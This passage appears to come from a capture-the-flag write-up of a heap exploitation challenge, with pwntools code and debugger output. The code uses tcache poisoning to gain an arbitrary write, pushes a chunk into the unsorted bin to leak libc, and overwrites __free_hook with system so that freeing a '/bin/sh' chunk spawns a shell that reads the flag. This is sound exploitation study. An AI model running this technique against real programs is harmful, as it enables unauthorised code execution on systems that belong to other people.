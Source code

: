 ```python
# libc leak
allocs() # allocated 25 chunks. Those will take 25*0x30=1200 bytes of memory (0x4b0)
sleep(37) # will be used to overwrite the free_hook
sleep(38) #  will be used to overwrite the free_hook
sleep(39,date=b'/bin/sh') #  will be used to overwrite the free_hook

# set up write what where with tcache poison, to write to chunk number two's size
sleep(35)
sleep(36)
sell(35)
sell(36)
visit_psychiatrist(36, p64(heap_base+BIG_CHUNK_OFFSET))


# alloc this to take out tcache's top chunk. We are intersted in the next one
sleep(34, b"junk", b"junk2")
# overwrite two's size to fool free into thinking that chunk two's size is actually 0x4b1
# since its over tcache max chunk size, it will go to unsorted bin
io.sendlineafter(b'>',str(1).encode())
io.sendlineafter(b'?',str(33).encode())
io.sendlineafter(b'?',p32(0)) 
io.sendafter(b'?',p32(0x4b1))
```

```string
────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────
All tcachebins are empty
─────────────────────────────── Fastbins for arena at 0x7fb2935a4b80 ───────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
───────────────────────────── Unsorted Bin for arena at 0x7fb2935a4b80 ─────────────────────────────
[+] unsorted_bins[0]: fw=0x4ae300, bk=0x4ae300
 →   Chunk(addr=0x4ae310, size=0x4b0, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
```

As you can see, I got a chunk in the unsorted bin! I also allocated chunks to use later, since the tcache and unosrted bin will become corrupted for further allocations if they remain empty.  
Having all required information on the binary, all is left to do is poison tcache one last time to overwrite the free_hook with system and free a chunk pointing to /bin/sh.

```python
# set up write what where to overwrite the free_hook
sell(37)
sell(38)
visit_psychiatrist(38, p64(libc.symbols['__free_hook']))

# alloc this to take out tcache's top chunk. We are intersted in the next one
sleep(40, b"junk", b"junk2")
# overwrite free_hook with system
io.sendlineafter(b'>',str(1).encode())
io.sendlineafter(b'?',str(62).encode())
io.sendlineafter(b' What\'s the date (mm/dd/yy))?',p64(libc.symbols['system'])) 

# free a chunk that has /bin/sh and get the shell
sell(39)
io.sendline(b'cat flag.txt')
```